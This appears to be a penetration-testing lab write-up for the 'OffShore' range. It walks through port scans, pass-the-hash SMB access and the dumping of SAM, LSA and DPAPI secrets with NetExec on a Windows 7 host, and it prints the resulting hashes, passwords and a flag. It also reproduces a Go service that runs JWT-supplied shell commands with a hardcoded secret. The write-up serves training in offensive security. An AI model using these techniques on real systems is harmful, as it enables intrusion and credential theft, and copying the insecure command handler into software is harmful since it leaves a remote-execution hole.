





We can start by running a check over all the ports available on the TCP protocoll and that are eventually accessible to us.

```
PORT      STATE SERVICE            REASON         VERSION
135/tcp   open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 64 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: DEV)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 64
|_ssl-date: 2024-07-03T11:56:43+00:00; +2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: DEV
|   NetBIOS_Domain_Name: DEV
|   NetBIOS_Computer_Name: WS03
|   DNS_Domain_Name: dev.ADMIN.OFFSHORE.COM
|   DNS_Computer_Name: WS03.dev.ADMIN.OFFSHORE.COM
|   DNS_Tree_Name: ADMIN.OFFSHORE.COM
|   Product_Version: 6.1.7601
|_  System_Time: 2024-07-03T11:56:03+00:00
| ssl-cert: Subject: commonName=WS03.dev.ADMIN.OFFSHORE.COM
| Issuer: commonName=WS03.dev.ADMIN.OFFSHORE.COM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-07-02T03:23:06
| Not valid after:  2025-01-01T03:23:06
| MD5:   98f3:94e0:545d:fe0d:997b:7691:0dda:e385
| SHA-1: eaca:c275:56d2:6af9:44d2:f6a4:b472:1adc:1ca6:e9bd
| -----BEGIN CERTIFICATE-----
| MIIC+jCCAeKgAwIBAgIQfoEnby1h/LZDD91zNJx94zANBgkqhkiG9w0BAQUFADAm
| MSQwIgYDVQQDExtXUzAzLmRldi5BRE1JTi5PRkZTSE9SRS5DT00wHhcNMjQwNzAy
| MDMyMzA2WhcNMjUwMTAxMDMyMzA2WjAmMSQwIgYDVQQDExtXUzAzLmRldi5BRE1J
| Ti5PRkZTSE9SRS5DT00wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCe
| +5STti9abnXXbjT7arXWMHWEag4Fs/qlWTUr+si/d43qr2SlnNuBNDJkIAKyxEaD
| FIuVVlIX5kP0LIPuerS8NGgf3qxb9L7P8h7FnTTpYEepSItO9FHPfX468kpJ2iLn
| kxd+EJqcn2o534kjlxDeWlDZP78uuqJlO1crOvE8ZRKBXBA7s7Plj59D87TRiQgR
| TGomjn2iggCuKQQpP5wnA4aypIlIjyI2PzAQgM/p4KrBdJugbvLvQHKL4kuuXzUw
| BYqDjmXER5eLmmqylh5dWM3CPh+TW24liMviT75fwDfqC9EqMZKKi+P1yUrWFB3/
| Lt9OVx1CxOn9a1H8LpcTAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsG
| A1UdDwQEAwIEMDANBgkqhkiG9w0BAQUFAAOCAQEAJ2qTUtQAg6rIP4yKc33pJcuc
| yy6BGFWwyMGBe7TmMBnP2fkH18t+Su2Lwll3ZvjRE5oydV+VpndGWUIsl3BduRw7
| 13tGDg70rSeR4ztsEO041+XVc5yoVZ/tiUgThr9MHUlWoj6TFOVKYkxFWpPKHNG7
| S31NXJghI+AQWKt1ns/U/sdWxAepYA5QRpjXilOBYXXd+cPjJR4WKgjrZBhABaUk
| GvnX+NaCFLH0V6runa/shdtRa4yQYzI1WMwLB5CCA2PdfCgDDZrUxmehF8ea4Xf5
| l/LA7NQ4K8PGJLTwDuoLskzN/TbepZU7AtA54/oyOWg5dscq8hZDBnLyzx4Xgg==
|_-----END CERTIFICATE-----
5357/tcp  open  http               syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
49152/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/3%OT=135%CT=%CU=%PV=Y%G=N%TM=66853C79%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

We can do same but this time for the UDP services.

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.2.6          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-03 13:53 CEST
Nmap scan report for 172.16.2.6
Host is up (0.014s latency).
Not shown: 98 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 18.01 seconds
```

&nbsp;

# SMB

So far I don't see anything juicy so i will start looking for strange shares with the Admin@corp.local and immediatetly I don't see anything strage except that this machine might still be Windows 7 SP1?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.2.102 -u Administrator -H 0109d7e72fcfe404186c4079ba6cf79c -d 'corp.local' --shares
SMB         172.16.2.102    445    WS03             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS03) (domain:dev.ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.2.102    445    WS03             [+] corp.local\Administrator:0109d7e72fcfe404186c4079ba6cf79c 
SMB         172.16.2.102    445    WS03             [*] Enumerated shares
SMB         172.16.2.102    445    WS03             Share           Permissions     Remark
SMB         172.16.2.102    445    WS03             -----           -----------     ------
SMB         172.16.2.102    445    WS03             ADMIN$                          Remote Admin
SMB         172.16.2.102    445    WS03             C$                              Default share
SMB         172.16.2.102    445    WS03             IPC$                            Remote IPC
```

We can use Enum4linux-NG to check as well.

```
===========================================================
|    Domain Information via SMB session for 172.16.2.102    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: WS03
NetBIOS domain name: DEV
DNS domain: dev.ADMIN.OFFSHORE.COM
FQDN: WS03.dev.ADMIN.OFFSHORE.COM
Derived membership: domain member
Derived domain: DEV

 =========================================
|    RPC Session Check on 172.16.2.102    |
 =========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ===================================================
|    Domain Information via RPC for 172.16.2.102    |
 ===================================================
[-] Could not get domain information via 'lsaquery': STATUS_ACCESS_DENIED

 ===============================================
|    OS Information via RPC for 172.16.2.102    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 7 Professional 7601 Service Pack 1
OS version: '6.1'
OS release: ''
OS build: '7601'
Native OS: Windows 7 Professional 7601 Service Pack 1
Native LAN manager: Windows 7 Professional 6.1
Platform id: null
Server type: null
Server type string: null
```

Seems like yes, this is a good sign as we might be able to use Ethernalblue to gain a shell as NTSystem.

 It is failing. maybe we need to find other payloads?

&nbsp;

# Back on track

With the credentials of JOE found from the AD we can now access this machine and judging by the pwned message this means he is admin on the machine:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# NetExec smb 172.16.2.102 -u Joe -p '' --shares
SMB         172.16.2.102    445    WS03             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS03) (domain:dev.ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.2.102    445    WS03             [+] dev.ADMIN.OFFSHORE.COM\Joe: (Pwn3d!)
SMB         172.16.2.102    445    WS03             [*] Enumerated shares
SMB         172.16.2.102    445    WS03             Share           Permissions     Remark
SMB         172.16.2.102    445    WS03             -----           -----------     ------
SMB         172.16.2.102    445    WS03             ADMIN$          READ,WRITE      Remote Admin
SMB         172.16.2.102    445    WS03             C$              READ,WRITE      Default share
SMB         172.16.2.102    445    WS03             IPC$                            Remote IPC
```

I will try to dump SAM:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# NetExec smb 172.16.2.102 -u Joe -p '' --sam         
SMB         172.16.2.102    445    WS03             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS03) (domain:dev.ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.2.102    445    WS03             [+] dev.ADMIN.OFFSHORE.COM\Joe: (Pwn3d!)
SMB         172.16.2.102    445    WS03             [*] Dumping SAM hashes
SMB         172.16.2.102    445    WS03             Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.2.102    445    WS03             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.2.102    445    WS03             justalocaladmin:1002:aad3b435b51404eeaad3b435b51404ee:c61f43b6a4db2676714713836b7d2ea6:::
SMB         172.16.2.102    445    WS03             [+] Added 3 SAM hashes to the database
```

And LSASS.exe secrets:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# NetExec smb 172.16.2.102 -u Joe -p '' --lsa
SMB         172.16.2.102    445    WS03             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS03) (domain:dev.ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.2.102    445    WS03             [+] dev.ADMIN.OFFSHORE.COM\Joe: (Pwn3d!)
SMB         172.16.2.102    445    WS03             [+] Dumping LSA secrets
SMB         172.16.2.102    445    WS03             DEV.ADMIN.OFFSHORE.COM/joe:$DCC2$10240#joe#2dbf1936da3745232ab704a38b37e732: (2023-12-11 08:22:24)
SMB         172.16.2.102    445    WS03             DEV\WS03$:aes256-cts-hmac-sha1-96:a7e288fd80acc06a436011dbca3b68494e2a6b31007b1b2a77a125b7b3b2fad3
SMB         172.16.2.102    445    WS03             DEV\WS03$:aes128-cts-hmac-sha1-96:847e0f85d48f9fe5d413d1091c532c57
SMB         172.16.2.102    445    WS03             DEV\WS03$:des-cbc-md5:c1860e4f0ec70710
SMB         172.16.2.102    445    WS03             DEV\WS03$:plain_password_hex:2f002f0021006f006200530043003a00410062002d002900650047002c0075005900650055005900410057003e0057002d00790047007a004d0037002b00560065004b00550035004d006c002b00480054004d003e0075007900380025006500770053005d002000520051003b0048004b004d004f003b00790058003d004d002b005b003d002d0072006500530038007600650062006d004d003b0075003d0065007600460056002a006e0042005400680059003f0056006000680066003000770073002700670045005d0051002e0070003000430023006e0052005f0034004600340049007100790023002a002600
SMB         172.16.2.102    445    WS03             DEV\WS03$:aad3b435b51404eeaad3b435b51404ee:5cf7b4d94646e8efba50f45b88c12608:::
SMB         172.16.2.102    445    WS03             dpapi_machinekey:0x83a675ef5f9debf26f1232f7e2a9d2e95e4edce8
dpapi_userkey:0x4f1b5f891eb9d13cf90baa9f552bb7d265b01f3e
SMB         172.16.2.102    445    WS03             NL$KM:abc26a3ea5c536bb6c461df07270c11c739f9dc604e9c2aa22b884ac61811b48ca57b597484d88aa0f62fce3ee99089eaa8716c8ebdb691bed0b650a2ca42dd6
SMB         172.16.2.102    445    WS03             [+] Dumped 8 LSA secrets to /root/.nxc/logs/WS03_172.16.2.102_2024-07-03_172829.secrets and /root/.nxc/logs/WS03_172.16.2.102_2024-07-03_172829.cached
```

And DPAPI as well:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# NetExec smb 172.16.2.102 -u Joe -p '' --dpapi
SMB         172.16.2.102    445    WS03             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS03) (domain:dev.ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.2.102    445    WS03             [+] dev.ADMIN.OFFSHORE.COM\Joe: (Pwn3d!)
SMB         172.16.2.102    445    WS03             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.2.102    445    WS03             [+] Got 23 decrypted masterkeys. Looting secrets...
SMB         172.16.2.102    445    WS03             [-] No secrets found
```

But nothing so far.

&nbsp;

# Post Exploitation

I login and grab another flag since we know he is part of `Workstation admins` anyway.



And the flag itself:

```
C:\Users\administrator> dir Desktop
 Volume in drive C has no label.
 Volume Serial Number is A39E-D5A7

 Directory of C:\Users\administrator\Desktop

04/29/2018  03:22 AM    <DIR>          .
04/29/2018  03:22 AM    <DIR>          ..
04/29/2018  03:23 AM                36 flag.txt
               1 File(s)             36 bytes
               2 Dir(s)  18,385,211,392 bytes free

C:\Users\administrator> type Desktop/flag.txt
The syntax of the command is incorrect.

C:\Users\administrator> type Desktop/flag.txt
The syntax of the command is incorrect.

C:\Users\administrator> type Desktop\flag.txt
OFFSHORE{ACL_@bus3_0ft3n_ov3rl00k3d}
C:\Users\administrator>
```

Next checking under root folder I see traces of the strange application running over port TCP/3000 on the machine `.1.22.`:

```
C:\Projects\goMonitor> dir
 Volume in drive C has no label.
 Volume Serial Number is A39E-D5A7

 Directory of C:\Projects\goMonitor

08/19/2018  03:34 PM    <DIR>          .
08/19/2018  03:34 PM    <DIR>          ..
08/19/2018  03:34 PM    <DIR>          .git
07/12/2022  05:34 AM             1,611 main.go
08/19/2018  09:26 AM               351 README.md
               2 File(s)          1,962 bytes
               3 Dir(s)  18,385,211,392 bytes free

C:\Projects\goMonitor> type main.go
package main
import (
    "fmt"
    "os/exec"
    "strings"
    "net/http"

   "github.com/auth0/go-jwt-middleware"
   "github.com/dgrijalva/jwt-go"
    )

var secret = []byte("PSmu3dR2wMZQvNge")

var RunCmd = http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
    // Extract token from header
    var tokenstring string
    tokens, ok := r.Header["Authorization"]
    if ok && len(tokens) <= 2 {
    tokenstring = tokens[0]
    tokenstring = strings.TrimPrefix(tokenstring, "Bearer ")
    }

    // Extract cmd
    token, _ := jwt.Parse(tokenstring, func(token *jwt.Token) (interface{}, error) {
        return secret, nil
    })
    cmd := token.Claims.(jwt.MapClaims)["cmd"].(string)

    // Execute command
    // BUG: This only will work on linux, this was a hack to easily allow arguments to be sent.
    //      Unfortunately, it broke the code on Windows.  Either need to look into parsing
    //      arguments, or simply create an if/then to check for OS.
    // No command should contain a space.
    if strings.Contains(cmd, " ") {
        fmt.Fprintf(w, "Hacker Detected!")
    } else {
    // Execute command
        output, _ := exec.Command("sh","-c", cmd).Output()
        fmt.Fprintf(w, "%s", output)
    }
})

func main() {
    jwtMiddleware := jwtmiddleware.New(jwtmiddleware.Options{
    ValidationKeyGetter: func(token *jwt.Token) (interface{}, error) {
        return secret, nil
        },
    SigningMethod: jwt.SigningMethodHS256,
    })

    app := jwtMiddleware.Handler(RunCmd)
    http.ListenAndServe("0.0.0.0:3000", app)
}
C:\Projects\goMonitor>
```

Before ending I will try to perform a Pingsweep and check for other available machines on this network.



Seems like we have a new machine that is only reachable from the inside, this means it must be non domain joined then.

&nbsp;

# Extra

Apparently I missed another flag, specifically this was saved in the Joe's session browser:  


But we could also got this use by using lazagne.exe



And we can also see some more credentials from dpapi keys:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.2.102 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 --dpapi
SMB         172.16.2.102    445    WS03             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS03) (domain:dev.ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.2.102    445    WS03             [+] dev.ADMIN.OFFSHORE.COM\Administrator:c61f43b6a4db2676714713836b7d2ea6 (Pwn3d!)
SMB         172.16.2.102    445    WS03             [+] Loading domain backupkey from nxcdb...
SMB         172.16.2.102    445    WS03             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.2.102    445    WS03             [+] Got 30 decrypted masterkeys. Looting secrets...
SMB         172.16.2.102    445    WS03             [svc_techsupport4][CREDENTIAL] LegacyGeneric:target=Printer admin console - svc_printjob01:Il0veprinting!
```

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;